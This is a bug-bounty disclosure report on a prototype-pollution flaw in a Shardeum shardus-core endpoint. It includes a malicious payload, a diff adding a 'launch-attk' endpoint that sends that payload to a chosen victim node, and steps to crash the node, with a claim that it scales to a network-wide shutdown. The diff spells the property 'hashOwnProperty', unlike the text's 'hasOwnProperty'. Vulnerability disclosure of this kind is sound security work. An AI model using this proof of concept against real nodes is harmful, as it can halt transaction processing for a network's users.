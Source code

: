 
# remove_timestamp_cache prototype pollution leading crashed node

Submitted on Tue Aug 13 2024 12:17:14 GMT-0400 (Atlantic Standard Time) by @ZhouWu for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34476

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Description
In the @shardus/core source code repo, node store a cache of transaction timstamp. Other node will ask the cache, if it's a miss the node will create new tx timestamp cache object derived from payload of the request. Subsequently there's another endpoint named remove_timestamp_cache , presumebly to remove these cache. This endpoint is referencing properties in object injection from the element in the payload from the request. Which make it vulnearble to prototype pollution


## Vulnerability
This happen due to referencing the object properties from the payload of the request directly when trying to remove the cache in `remove_timestamp_cache` endpoint. The code is as follows

```
if (this.txTimestampCache[cycleCounter] && this.txTimestampCache[cycleCounter][txId]) {
```
This way of referencing the cache object to assigned value is dangerous, because the referenced element come straight from the request payload. Consider the following payload
```
{
  cycleMarker: "rndmStr",
  cycleCounter: "__proto__",
  txId: "hasOwnProperty"
}
```

This mean that the cache object will be referenced in the following way
```
this.txTimestampCache["__proto__"]["hasOwnProperty"]
```
Essentially overwriting the prototype of the cache object, and the `hasOwnProperty` method of the cache object. This is problematic because `hasOwnProperty` is polluted to be a literal string which in turns break the code of the victim when object iteration or objection check operations are done later down the stream.
        
## Proof of concept



## Proof of Concept
- Launch a network of legit nodes.
- Launch an attacker node with this patch applied to shardus/core
- Wait for the attacker node to go active

```diff

diff --git a/src/utils/nestedCounters.ts b/src/utils/nestedCounters.ts
index 3ebbb782..5fbe9796 100644
--- a/src/utils/nestedCounters.ts
+++ b/src/utils/nestedCounters.ts
@@ -5,6 +5,11 @@ import Crypto from '../crypto'
 import { isDebugModeMiddleware, isDebugModeMiddlewareLow } from '../network/debugMiddleware'
 import { getNetworkTimeOffset, shardusGetTime } from '../network'
 import { Utils } from '@shardus/types'
+import { InternalRouteEnum } from '../types/enum/InternalRouteEnum'
+import { getTxTimestampReq, serializeGetTxTimestampReq } from '../types/GetTxTimestampReq'
+import { deserializeGetTxTimestampResp, getTxTimestampResp } from '../types/GetTxTimestampResp'
+import * as crypto from "crypto"
+

 type CounterMap = Map<string, CounterNode>
 interface CounterNode {
@@ -32,6 +37,30 @@ class NestedCounters {
   }

   registerEndpoints(): void {
+
+    Context.network.registerExternalGet('launch-attk', async (req, res)=>{
+
+          const victim = req.query.victim as string
+
+          const node = Context.shardus.getNodeByPubKey(victim)
+
+          const cycleMarker = crypto.randomBytes(254).toString()
+
+          const cycleCounter = "__proto__"
+
+          const txId = "hashOwnProperty"
+
+          const payload = {
+            cycleMarker,
+            cycleCounter,
+            txId
+          }
+
+          const data = await Context.p2p.ask(node, "remove_timestamp_cache", payload, false)
+
+          res.send(data)
+    })
+
     Context.network.registerExternalGet('counts', isDebugModeMiddlewareLow, (req, res) => {
       profilerInstance.scopedProfileSectionStart('counts')


 ```
 - Send a request to the attacker node with the victim node pubkey as a query parameter
 - `GET http://localhost:1337/launch-attk?victim=<publickey>`
 - observe the logs, the node exit unCleanly, essentially killing the node.

 ## Impact
 This is pretty straightforward single node attack, the script can be modified to attack the whole network to kill the whole network.

